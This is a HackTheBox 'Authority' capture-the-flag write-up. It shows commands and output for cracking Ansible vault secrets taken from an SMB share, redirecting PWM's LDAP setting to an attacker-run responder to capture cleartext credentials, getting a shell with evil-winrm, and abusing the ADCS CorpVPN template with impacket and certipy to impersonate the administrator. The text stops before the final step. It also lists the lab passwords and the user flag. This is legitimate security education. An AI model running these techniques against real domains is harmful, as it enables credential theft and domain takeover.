





# Authority - HackTheBox - Writeup
Windows, 30 Base Points, Medium



## Machine


 
## TL;DR

***User***: While examining SMB share, We discovered Ansible-Vault hashes. After successfully cracking these hashes, we gained access to the PWM portal running on port `8443`. By modifying the `ldap.serverUrls` section within the `PwmConfiguration.xml` file, we were able to retrieve the clear-text LDAP authentication password for the `svc_ldap` user.

***Root***: Discovered a vulnerable certificate named `CorpVPN` utilizing `Certify`. Incorporated a new domain computer through `impacket-addcomputer`. Employed `certipy` and `PassTheCert` to establish a new user within the `Domain Admins` group.


## Authority Solution

### User

Let's begin by using `nmap` to scan the target machine:

```console
┌─[evyatar9@parrot]─[/hackthebox/Authority]
└──╼ $ nmap -sV -sC -oA nmap/Authority 10.10.11.222
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-27 00:12 IDT
Nmap scan report for 10.10.11.222
Host is up (0.15s latency).
Not shown: 987 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-07-27 01:13:07Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
|_ssl-date: 2023-07-27T01:13:58+00:00; +3h59m59s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: othername:<unsupported>, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: othername:<unsupported>, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
|_ssl-date: 2023-07-27T01:13:57+00:00; +4h00m00s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: othername:<unsupported>, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
|_ssl-date: 2023-07-27T01:13:58+00:00; +3h59m59s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: othername:<unsupported>, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
|_ssl-date: 2023-07-27T01:13:57+00:00; +4h00m00s from scanner time.
8443/tcp open  ssl/https-alt
| fingerprint-strings: 
|   FourOhFourRequest, GetRequest: 
|     HTTP/1.1 200 
|     Content-Type: text/html;charset=ISO-8859-1
|     Content-Length: 82
|     Date: Thu, 27 Jul 2023 01:13:13 GMT
|     Connection: close
|     <html><head><meta http-equiv="refresh" content="0;URL='/pwm'"/></head></html>
|   HTTPOptions: 
|     HTTP/1.1 200 
|     Allow: GET, HEAD, POST, OPTIONS
|     Content-Length: 0
|     Date: Thu, 27 Jul 2023 01:13:13 GMT
|     Connection: close
|   RTSPRequest: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 1936
|     Date: Thu, 27 Jul 2023 01:13:19 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|_    Request</h1><hr class="line" /><p><b>Type</b> Exception Report</p><p><b>Message</b> Invalid character found in the HTTP protocol [RTSP&#47;1.00x0d0x0a0x0d0x0a...]</p><p><b>Description</b> The server cannot or will not process the request due to something that is perceived to be a client error (e.g., malformed request syntax, invalid
| ssl-cert: Subject: commonName=172.16.2.118
| Not valid before: 2023-07-25T01:07:59
|_Not valid after:  2025-07-26T12:46:23
|_http-title: Site doesn't have a title (text/html;charset=ISO-8859-1).
|_ssl-date: TLS randomness does not represent time
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8443-TCP:V=7.93%T=SSL%I=7%D=7/27%Time=64C18C6A%P=x86_64-pc-linux-gn
SF:u%r(GetRequest,DB,"HTTP/1\.1\x20200\x20\r\nContent-Type:\x20text/html;c
SF:harset=ISO-8859-1\r\nContent-Length:\x2082\r\nDate:\x20Thu,\x2027\x20Ju
SF:l\x202023\x2001:13:13\x20GMT\r\nConnection:\x20close\r\n\r\n\n\n\n\n\n<
SF:html><head><meta\x20http-equiv=\"refresh\"\x20content=\"0;URL='/pwm'\"/
SF:></head></html>")%r(HTTPOptions,7D,"HTTP/1\.1\x20200\x20\r\nAllow:\x20G
SF:ET,\x20HEAD,\x20POST,\x20OPTIONS\r\nContent-Length:\x200\r\nDate:\x20Th
SF:u,\x2027\x20Jul\x202023\x2001:13:13\x20GMT\r\nConnection:\x20close\r\n\
SF:r\n")%r(FourOhFourRequest,DB,"HTTP/1\.1\x20200\x20\r\nContent-Type:\x20
SF:text/html;charset=ISO-8859-1\r\nContent-Length:\x2082\r\nDate:\x20Thu,\
SF:x2027\x20Jul\x202023\x2001:13:13\x20GMT\r\nConnection:\x20close\r\n\r\n
SF:\n\n\n\n\n<html><head><meta\x20http-equiv=\"refresh\"\x20content=\"0;UR
SF:L='/pwm'\"/></head></html>")%r(RTSPRequest,82C,"HTTP/1\.1\x20400\x20\r\
SF:nContent-Type:\x20text/html;charset=utf-8\r\nContent-Language:\x20en\r\
SF:nContent-Length:\x201936\r\nDate:\x20Thu,\x2027\x20Jul\x202023\x2001:13
SF::19\x20GMT\r\nConnection:\x20close\r\n\r\n<!doctype\x20html><html\x20la
SF:ng=\"en\"><head><title>HTTP\x20Status\x20400\x20\xe2\x80\x93\x20Bad\x20
SF:Request</title><style\x20type=\"text/css\">body\x20{font-family:Tahoma,
SF:Arial,sans-serif;}\x20h1,\x20h2,\x20h3,\x20b\x20{color:white;background
SF:-color:#525D76;}\x20h1\x20{font-size:22px;}\x20h2\x20{font-size:16px;}\
SF:x20h3\x20{font-size:14px;}\x20p\x20{font-size:12px;}\x20a\x20{color:bla
SF:ck;}\x20\.line\x20{height:1px;background-color:#525D76;border:none;}</s
SF:tyle></head><body><h1>HTTP\x20Status\x20400\x20\xe2\x80\x93\x20Bad\x20R
SF:equest</h1><hr\x20class=\"line\"\x20/><p><b>Type</b>\x20Exception\x20Re
SF:port</p><p><b>Message</b>\x20Invalid\x20character\x20found\x20in\x20the
SF:\x20HTTP\x20protocol\x20\[RTSP&#47;1\.00x0d0x0a0x0d0x0a\.\.\.\]</p><p><
SF:b>Description</b>\x20The\x20server\x20cannot\x20or\x20will\x20not\x20pr
SF:ocess\x20the\x20request\x20due\x20to\x20something\x20that\x20is\x20perc
SF:eived\x20to\x20be\x20a\x20client\x20error\x20\(e\.g\.,\x20malformed\x20
SF:request\x20syntax,\x20invalid\x20");
Service Info: Host: AUTHORITY; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
|_clock-skew: mean: 3h59m59s, deviation: 0s, median: 3h59m58s
| smb2-time: 
|   date: 2023-07-27T01:13:49
|_  start_date: N/A

```

Observing port `8443`, we see that the following web page is hosted:



We can see its https://github.com/pwm-project/pwm. 

Through observation of the SMB shares, the following directories within `Development` become apparent:

```console
┌─[evyatar9@parrot]─[/hackthebox/Authority]
└──╼ $ smbclient //authority.htb/Development
smb: \Automation\Ansible\> dir
  .                                   D        0  Fri Mar 17 15:20:50 2023
  ..                                  D        0  Fri Mar 17 15:20:50 2023
  ADCS                                D        0  Fri Mar 17 15:20:48 2023
  LDAP                                D        0  Fri Mar 17 15:20:48 2023
  PWM                                 D        0  Fri Mar 17 15:20:48 2023
  SHARE                               D        0  Fri Mar 17 15:20:48 2023

		5888511 blocks of size 4096. 1273331 blocks available

```

Let's proceed to download all directories from the `Development`:

```console
smb: \Automation\Ansible\> prompt
smb: \Automation\Ansible\> recurse on
smb: \Automation\Ansible\> mget *
...
```

While examining the directories, we came across the file named `main.yml` within the `ADCS/PWM/defaults` directory:

```console
┌─[evyatar9@parrot]─[/hackthebox/Authority/ADCS/PWM/defaults]
└──╼ $ cat main.yml 
---
pwm_run_dir: "{{ lookup('env', 'PWD') }}"

pwm_hostname: authority.htb.corp
pwm_http_port: "{{ http_port }}"
pwm_https_port: "{{ https_port }}"
pwm_https_enable: true

pwm_require_ssl: false

pwm_admin_login: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          32666534386435366537653136663731633138616264323230383566333966346662313161326239
          6134353663663462373265633832356663356239383039640a346431373431666433343434366139
          35653634376333666234613466396534343030656165396464323564373334616262613439343033
          6334326263326364380a653034313733326639323433626130343834663538326439636232306531
          3438

pwm_admin_password: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          31356338343963323063373435363261323563393235633365356134616261666433393263373736
          3335616263326464633832376261306131303337653964350a363663623132353136346631396662
          38656432323830393339336231373637303535613636646561653637386634613862316638353530
          3930356637306461350a316466663037303037653761323565343338653934646533663365363035
          6531

ldap_uri: ldap://127.0.0.1/
ldap_base_dn: "DC=authority,DC=htb"
ldap_admin_password: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          63303831303534303266356462373731393561313363313038376166336536666232626461653630
          3437333035366235613437373733316635313530326639330a643034623530623439616136363563
          34646237336164356438383034623462323531316333623135383134656263663266653938333334
          3238343230333633350a646664396565633037333431626163306531336336326665316430613566
          3764
```

Upon inspection, an Ansible-Vault hash is present. It can be decrypted using the provided reference: https://ppn.snovvcrash.rocks/pentest/infrastructure/devops/ansible.

Initially, we must utilize [ansible2john](https://github.com/willstruggle/john/blob/master/ansible2john.py):
```console
┌─[evyatar9@parrot]─[/hackthebox/Authority]
└──╼ $ cat hash_admin_login
$ANSIBLE_VAULT;1.1;AES256
32666534386435366537653136663731633138616264323230383566333966346662313161326239
6134353663663462373265633832356663356239383039640a346431373431666433343434366139
35653634376333666234613466396534343030656165396464323564373334616262613439343033
6334326263326364380a653034313733326639323433626130343834663538326439636232306531
3438
┌─[evyatar9@parrot]─[/hackthebox/Authority]
└──╼ $ python3 ansible2john.py hash_admin_login > hash_admin_login.out
┌─[evyatar9@parrot]─[/hackthebox/Authority]
└──╼ $ cat hash_admin_password
$ANSIBLE_VAULT;1.1;AES256
31356338343963323063373435363261323563393235633365356134616261666433393263373736
3335616263326464633832376261306131303337653964350a363663623132353136346631396662
38656432323830393339336231373637303535613636646561653637386634613862316638353530
3930356637306461350a316466663037303037653761323565343338653934646533663365363035
6531
┌─[evyatar9@parrot]─[/hackthebox/Authority]
└──╼ $ python3 ansible2john.py hash_admin_password > hash_admin_password.out
┌─[evyatar9@parrot]─[/hackthebox/Authority]
└──╼ $ cat hash_ldap_admin_password
$ANSIBLE_VAULT;1.1;AES256
63303831303534303266356462373731393561313363313038376166336536666232626461653630
3437333035366235613437373733316635313530326639330a643034623530623439616136363563
34646237336164356438383034623462323531316333623135383134656263663266653938333334
3238343230333633350a646664396565633037333431626163306531336336326665316430613566
3764
┌─[evyatar9@parrot]─[/hackthebox/Authority]
└──╼ $ python3 ansible2john.py hash_ldap_admin_password > hash_ldap_admin_password.out
```

Proceed to crack them using `john`:
```console
┌─[evyatar9@parrot]─[/hackthebox/Authority]
└──╼ $ ohn --wordlist=~/Desktop/rockyou.txt hash_admin_login.out 
Using default input encoding: UTF-8
Loaded 1 password hash (ansible, Ansible Vault [PBKDF2-SHA256 HMAC-256 128/128 SSE2 4x])
Cost 1 (iteration count) is 10000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!@#$%^&*         (hash3)
1g 0:00:01:00 DONE (2023-08-05 00:14) 0.01647g/s 655.7p/s 655.7c/s 655.7C/s 001982..ventana
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```

Furthermore, we discovered that the password for all hash files is identical: `!@#$%^&*`.

Subsequently, we can employ `ansible-vault` to decrypt the vaults (`pip install ansible-vault`).:
```console
┌─[evyatar9@parrot]─[/hackthebox/Authority]
└──╼ $ cat hash_admin_login | ansible-vault decrypt
Vault password: 
Decryption successful
svc_pwm
┌─[evyatar9@parrot]─[/hackthebox/Authority]
└──╼ $ cat hash_admin_password | ansible-vault decrypt
Vault password: 
Decryption successful
pWm_@dm!N_!23
┌─[evyatar9@parrot]─[/hackthebox/Authority]
└──╼ $ cat hash_ldap_admin_password | ansible-vault decrypt
Vault password: 
Decryption successful
DevT3st@123
```

Utilizing the password we obtained on https://authority.htb:8443/ portal, we accessed the following webpage:



Upon clicking the `Download Configuration` button, we acquired the XML configuration file named `PwmConfiguration.xml`. This file encompasses the subsequent details regarding the LDAP configuration:
```XML
┌─[evyatar9@parrot]─[/hackthebox/Authority]
└──╼ $ cat PwmConfiguration.xml
...
<setting key="ldap.serverUrls" modifyTime="2022-08-11T01:46:23Z" profile="default" syntax="STRING_ARRAY" syntaxVersion="0">
            <label>LDAP ⇨ LDAP Directories ⇨ default ⇨ Connection ⇨ LDAP URLs</label>
            <value>ldaps://authority.authority.htb:636</value>
        </setting>

...
```

Additionally, the option for `Import configuration` is available. Let's modify the LDAP URL address to retrieve the clear-text password of the authenticated user
```XML
┌─[evyatar9@parrot]─[/hackthebox/Authority]
└──╼ $ cat PwmConfiguration.xml
...
<setting key="ldap.serverUrls" modifyTime="2022-08-11T01:46:23Z" profile="default" syntax="STRING_ARRAY" syntaxVersion="0">
            <label>LDAP ⇨ LDAP Directories ⇨ default ⇨ Connection ⇨ LDAP URLs</label>
            <value>ldap://10.10.14.14:389</value>
        </setting>
```

Start `responder`:
```console
┌─[evyatar9@parrot]─[/hackthebox/Authority]
└──╼ $ sudo responder -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.0.6.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    DNS/MDNS                   [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Fingerprint hosts          [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.14]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[+] Current Session Variables:
    Responder Machine Name     [WIN-M7827I56PWB]
    Responder Domain Name      [1TIK.LOCAL]
    Responder DCE-RPC Port     [48900]

[+] Listening for events...

```

Now, proceed to upload the altered configuration with our LDAP address:



Subsequently, we received the ensuing request on `responder`:
```console
...
[LDAP] Cleartext Client   : 10.10.11.222
[LDAP] Cleartext Username : CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb
[LDAP] Cleartext Password : lDaP_1n_th3_cle4r!
[*] Skipping previously captured cleartext password for CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb
[*] Skipping previously captured cleartext password for CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb
```

We obtained the credentials `svc_ldap:lDaP_1n_th3_cle4r!`.

At this point, we can utilize `evil-winrm` to establish a connection with the target:
```console
┌─[evyatar9@parrot]─[/hackthebox/Authority]
└──╼ $ evil-winrm -i authority.htb -u svc_ldap -p 'lDaP_1n_th3_cle4r!'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_ldap\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\svc_ldap\Desktop> dir


    Directory: C:\Users\svc_ldap\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         8/4/2023   2:25 PM             34 user.txt


*Evil-WinRM* PS C:\Users\svc_ldap\Desktop> type user.txt
93c075dc218cf7fe4d48081b3792cebf
```

And we get the user flag `93c075dc218cf7fe4d48081b3792cebf`.

### Root

Upon executing `Certify.exe` (following the [reference](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation)), we encountered the subsequent list of vulnerable certificate templates:
```console
*Evil-WinRM* PS C:\Users\svc_ldap\downloads> upload Certify.exe
Info: Uploading Certify.exe to C:\Users\svc_ldap\downloads\Certify.exe

                                                             
Data: 236200 bytes of 236200 bytes copied

Info: Upload successful!
*Evil-WinRM* PS C:\Users\svc_ldap\downloads> ./Certify.exe find /vulnerable

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.1.0

[*] Action: Find certificate templates
[*] Using the search base 'CN=Configuration,DC=authority,DC=htb'

[*] Listing info about the Enterprise CA 'AUTHORITY-CA'

    Enterprise CA Name            : AUTHORITY-CA
    DNS Hostname                  : authority.authority.htb
    FullName                      : authority.authority.htb\AUTHORITY-CA
    Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
    Cert SubjectName              : CN=AUTHORITY-CA, DC=authority, DC=htb
    Cert Thumbprint               : 42A80DC79DD9CE76D032080B2F8B172BC29B0182
    Cert Serial                   : 2C4E1F3CA46BBDAF42A1DDE3EC33A6B4
    Cert Start Date               : 4/23/2023 9:46:26 PM
    Cert End Date                 : 4/23/2123 9:56:25 PM
    Cert Chain                    : CN=AUTHORITY-CA,DC=authority,DC=htb
    UserSpecifiedSAN              : Disabled
    CA Permissions                :
      Owner: BUILTIN\Administrators        S-1-5-32-544

      Access Rights                                     Principal

      Allow  Enroll                                     NT AUTHORITY\Authenticated UsersS-1-5-11
      Allow  ManageCA, ManageCertificates               BUILTIN\Administrators        S-1-5-32-544
      Allow  ManageCA, ManageCertificates               HTB\Domain Admins             S-1-5-21-622327497-3269355298-2248959698-512
      Allow  ManageCA, ManageCertificates               HTB\Enterprise Admins         S-1-5-21-622327497-3269355298-2248959698-519
    Enrollment Agent Restrictions : None

[!] Vulnerable Certificates Templates :

    CA Name                               : authority.authority.htb\AUTHORITY-CA
    Template Name                         : CorpVPN
    Schema Version                        : 2
    Validity Period                       : 20 years
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT
    mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS, AUTO_ENROLLMENT_CHECK_USER_DS_CERTIFICATE
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Client Authentication, Document Signing, Encrypting File System, IP security IKE intermediate, IP security user, KDC Authentication, Secure Email
    mspki-certificate-application-policy  : Client Authentication, Document Signing, Encrypting File System, IP security IKE intermediate, IP security user, KDC Authentication, Secure Email
    Permissions
      Enrollment Permissions
        Enrollment Rights           : HTB\Domain Admins             S-1-5-21-622327497-3269355298-2248959698-512
                                      HTB\Domain Computers          S-1-5-21-622327497-3269355298-2248959698-515
                                      HTB\Enterprise Admins         S-1-5-21-622327497-3269355298-2248959698-519
      Object Control Permissions
        Owner                       : HTB\Administrator             S-1-5-21-622327497-3269355298-2248959698-500
        WriteOwner Principals       : HTB\Administrator             S-1-5-21-622327497-3269355298-2248959698-500
                                      HTB\Domain Admins             S-1-5-21-622327497-3269355298-2248959698-512
                                      HTB\Enterprise Admins         S-1-5-21-622327497-3269355298-2248959698-519
        WriteDacl Principals        : HTB\Administrator             S-1-5-21-622327497-3269355298-2248959698-500
                                      HTB\Domain Admins             S-1-5-21-622327497-3269355298-2248959698-512
                                      HTB\Enterprise Admins         S-1-5-21-622327497-3269355298-2248959698-519
        WriteProperty Principals    : HTB\Administrator             S-1-5-21-622327497-3269355298-2248959698-500
                                      HTB\Domain Admins             S-1-5-21-622327497-3269355298-2248959698-512
                                      HTB\Enterprise Admins         S-1-5-21-622327497-3269355298-2248959698-519


```

It is evident that we successfully identified a Vulnerable Certificate Template labeled as `CorpVPN`, featuring Enrollment Rights allocated to `HTB\Domain Users`.

Given this situation, we have the option to request a certificate. However, it's worth noting that we can observe from the Enrollment Rights that certificate requests are permissible solely for `domain/enterprise administrators` or a `domain computer`.

We are required to incorporate a new domain computer account using[impacket-addcomputer](https://notes.benheater.com/books/active-directory/page/impacket-addcomputer):
```console
┌─[evyatar9@parrot]─[/hackthebox/Authority]
└──╼ $ impacket-addcomputer -computer-name evyatar9-pc$ -computer-pass evyatar9 authority.htb/svc_ldap:'lDaP_1n_th3_cle4r!'
Impacket v0.10.1.dev1+20230223.202738.f4b848fa - Copyright 2022 Fortra

[*] Successfully added machine account evyatar9-pc$ with password evyatar9.
```

We can now utilize [Certipy](https://github.com/ly4k/Certipy) to initiate the certificate request:
```console
┌─[evyatar9@parrot]─[/hackthebox/Authority]
└──╼ $ certipy req -username evyatar9-pc$ -p evyatar9 -ca AUTHORITY-CA -target authority.htb -template CorpVPN -upn administrator@authority.htb -dns authority.authority.htb -dc-ip 10.10.11.222
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 4
[*] Got certificate with multiple identifications
    UPN: 'administrator@authority.htb'
    DNS Host Name: 'authority.authority.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator_authority.pfx'
```

Next, let's generate the encrypted PFX certificates as outlined below:
```console
┌─[evyatar9@parrot]─[/hackthebox/Authority]
└──╼ $ certipy cert -pfx administrator_authority.pfx -nokey -out user.crt
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Writing certificate and  to 'user.crt'
┌─[evyatar9@parrot]─[/hackthebox/Authority]
└──╼ $ certipy cert -pfx administrator_authority.pfx -nocert -out user.key
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Writing private key to 'user.key'

```

Now, we have the option to employ [PassTheCert](https://github.com/AlmondOffSec/PassTheCert/tree/main/Python) for LDAP certificate authentication as the `Administrator` user.

We can add a new user to the administrators group in order to obtain the root flag:
```console
